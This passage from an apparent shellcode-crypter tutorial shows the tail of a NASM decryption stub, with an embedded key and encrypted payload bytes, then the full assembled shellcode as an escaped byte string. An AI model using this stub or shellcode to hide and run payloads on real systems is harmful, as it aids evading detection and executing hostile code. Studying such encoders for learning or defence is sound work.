 ```nasm
    mov cl, 0x8             ; set bits counter
    add ebx, ecx            ; init EBX pointer, it will iterate through 'w'
                            ; from its last element to its first

next_bit:
    dec ebx                 ; EBX point from w[7] to w[0]
    cdq                     ; clear EDX
    mov dl, [ebx]           ; set DL to next 'w' element value
    cmp ax, dx              ; 
    clc                     ; Set CF = 0
    js next                 ; jump if DX > AX 
                            ; else AX composed of DX, so corresponding bit = 1
    sub ax, dx              ; substract DX from AX
    stc                     ; Set CF = 1
next:
    rcr ebp, 1              ; rotate EBP one byte to the right, 
                            ; insert CF value to the left
    dec cl                  ; decrease bits counter
    jnz next_bit            ; jump to next bit if cl > 0

    shr ebp, 24             ; set the decrypted byte in the 8 lower bits of EBP
    xchg ebp, edx           ; exchange EDX and EBP (decrpted byte in DL now)
    mov byte [edi], dl      ; copy DL to the memory pointed by EDI
    inc edi                 ; move EDI to the next mememory byte
    lea esi, [esi+2]        ; move ESI to the next encrypted bytes
    pop cx                  ; set CX to bytes counter value
    dec cx                  ; decrease bytes counter
    jnz next_char           ; jump to next char if CX > 0

    jmp payload             ; Jump to decrypted payload
    
crypted:
    call decrypt
    key: db 0x01,0x03,0x06,0x0c,0x18,0x2f,0x5e,0xbd,0xe8,0x02,0xd7,0x00
    payload: db 0x69,0x03,0xf7,0x04,0x10,0x07,0xe9,0x03,0xe1,0x00,0xef,0x01,0x62,0x04,0x90,0x06,0x40,0x04,0xef,0x01,0xef,0x01,0x90,0x06,0x90,0x06,0x31,0x01,0x4a,0x04,0xca,0x04,0x93,0x04,0x15,0x02,0x6d,0x04,0xc0,0x06,0x07,0x01
```

As always we can extract the shellcode using a script :
```plaintext
[x] Assembling...
[x] Linking...
[x] Done !

Shellcode : 
"\\xeb\\x4d\\x66\\x8b\\x43\\x0a\\x66\\xf7\\x26\\x66\\xf7\\x73\\x08\\x66\\x89\\xd0\\xc3\\x5b\\x8d\\x7b\\x0c\\x89\\xfe\\x31\\xc9\\xf7\\xe1\\xb1\\x15\\xe8\\xe0\\xff\\xff\\xff\\x66\\x51\\xb1\\x08\\x01\\xcb\\x4b\\x99\\x8a\\x13\\x66\\x39\\xd0\\xf8\\x78\\x04\\x66\\x29\\xd0\\xf9\\xd1\\xdd\\xfe\\xc9\\x75\\xec\\xc1\\xed\\x18\\x87\\xea\\x88\\x17\\x47\\x8d\\x76\\x02\\x66\\x59\\x66\\x49\\x75\\xd0\\xeb\\x11\\xe8\\xbd\\xff\\xff\\xff\\x01\\x03\\x06\\x0c\\x18\\x2f\\x5e\\xbd\\xe8\\x02\\xd7\\x00\\x69\\x03\\xf7\\x04\\x10\\x07\\xe9\\x03\\xe1\\x00\\xef\\x01\\x62\\x04\\x90\\x06\\x40\\x04\\xef\\x01\\xef\\x01\\x90\\x06\\x90\\x06\\x31\\x01\\x4a\\x04\\xca\\x04\\x93\\x04\\x15\\x02\\x6d\\x04\\xc0\\x06\\x07\\x01"
```
